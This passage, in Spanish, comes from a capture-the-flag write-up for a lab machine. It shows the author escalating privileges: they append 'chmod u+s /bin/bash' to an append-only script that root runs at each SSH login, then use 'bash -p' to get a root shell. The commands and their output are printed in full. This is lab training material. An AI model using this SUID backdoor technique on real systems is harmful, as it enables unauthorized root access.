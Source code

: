 ```console
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

❯ ssh -i id_rsa svc_acc@10.10.11.156
No mail.
svc_acc@late:~$ 
```

Ya validamos que el usuario ejecuta el script `/usr/local/sbin/ssh-alert.sh` que previamente copiṕ.

Ahora facilmente podemos abrir el archivo y escribir el comando `chmod u+s /bin/bash` para poder ejecutar una **bash (intérpetre de comandos)** como **root** y obtener la shell. La idea es correcta, pero no nos permite abrir el archivo y modificarlo, aunque eso no es tan cierto...

Antes, en la ejecución de `pspy`, vimos que al script se aplicaba el comando `chattr +a`, pero que hace exactamente?

![ChattrConcept](chattr_concept.png)

> Un poco más de información del comando: [https://www.geeksforgeeks.org/chattr-command-in-linux-with-examples/](https://www.geeksforgeeks.org/chattr-command-in-linux-with-examples/)
{: .prompt-info}

Entonces lo que hace es cambiar atributos de archivos, y en este caso el paramtro `+a` **solo permite escribir en el archivo agregando información**, entonces podemos usar el comando para output `>>` y así poder modificar el archivo.

Si queremos confirmar estos permisos podemos verlos usando el comando `lsattr`:

```console
svc_acc@late:/usr/local/sbin$ lsattr ssh-alert.sh
-----a--------e--- ssh-alert.sh
svc_acc@late:/usr/local/sbin$ lsattr -l ssh-alert.sh
ssh-alert.sh                 Append_Only, Extents
```

> Usamos el parametro `-l` para usar el nombre descriptivo y saber que significa
{: .prompt-tip}

Ahora solo agregamos el comando al script `echo "chmod u+s /bin/bash" >> ssh-alert.sh`, volvemos a logearnos por **SSH**, el usuario **root** ejecutará el script, el comando `bash` tendra permisos **SUID** (nos permite ejecutar el comando con los permisos del propietario), luego ejecutamos el comando `bash` con el parámetro `-p` para que sea efectivo el permiso **SUID**, mantener el **UID** de **root**, obtener la shell y pa-dentro:

```console
svc_acc@late:/usr/local/sbin$ echo "chmod u+s /bin/bash" >> ssh-alert.sh
svc_acc@late:/usr/local/sbin$ exit                                                                                                     
logout
Connection to 10.10.11.156 closed.
❯ ssh -i id_rsa svc_acc@10.10.11.156
No mail.
bash-4.4$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# find / -name root.txt 2>/dev/null | xargs ls -l           
-rw-r----- 1 root root 33 May 11 20:15 /root/root.txt
```

* * *

